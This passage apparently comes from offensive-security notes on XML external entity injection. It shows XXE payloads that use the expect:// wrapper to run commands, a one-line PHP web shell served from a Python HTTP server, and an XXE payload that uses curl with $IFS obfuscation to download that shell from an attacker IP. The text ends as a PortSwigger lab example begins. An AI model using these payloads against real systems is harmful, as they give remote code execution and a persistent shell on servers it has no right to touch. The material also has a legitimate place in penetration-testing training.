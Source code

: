 {% tab title="RCE" %}
{% code overflow="wrap" %}
```xml
# The PHP://expect filter is not installed by default. 
# Also for this to work, the output must be reflected.
<!DOCTYPE test [
<!ENTITY company SYSTEM "expect://whoami'">
]>
```
{% endcode %}
{% endtab %}
{% endtabs %}

We can achieve RCE by exploiting a URL-referenced DTD.

{% tabs %}
{% tab title="1. Web shell" %}
```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```
{% endtab %}

{% tab title="2. XXEI" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
{% endtab %}
{% endtabs %}

We can also leverage a[ **file upload** functionality by uploading **XML-based formats**](xxei.md#svg-xxei-greater-than-rce) (`svg`, `docx`). In this case we must ensure to set `Content-Type: text/svg+xml`.

## Examples

### XXEI -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XXE using external entities to retrieve files_](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) _lab._&#x20;

The `Check Stock` feature process XML data and it is vulnerable to XXE injection (Figure 4).


[^1]: Point Of View